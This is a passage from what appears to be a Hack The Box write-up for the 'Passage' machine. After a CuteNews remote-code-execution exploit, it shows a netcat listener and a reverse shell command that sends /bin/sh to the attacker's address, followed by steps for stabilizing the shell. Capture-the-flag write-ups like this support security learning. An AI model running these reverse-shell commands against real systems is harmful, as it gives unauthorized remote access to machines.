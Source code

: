 ![exploit.py](/assets/img/posts/passage-htb/cutenews-rce-exploit.png)

Running the exploit allows us to run system commands but to have an actual shell I used netcat listener and sent /bin/sh from the passage box.


```bash
# Host machine

nc -lvnp 9000


# Victim machine

nc 10.14.10.44 9000 -e /bin/sh
```

Stabilizing shell in netcat

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl^Z
fg
[Enter]x2
```

We now have a stable and interactive shell over the box.

---

## Privilege Escalation to Paul
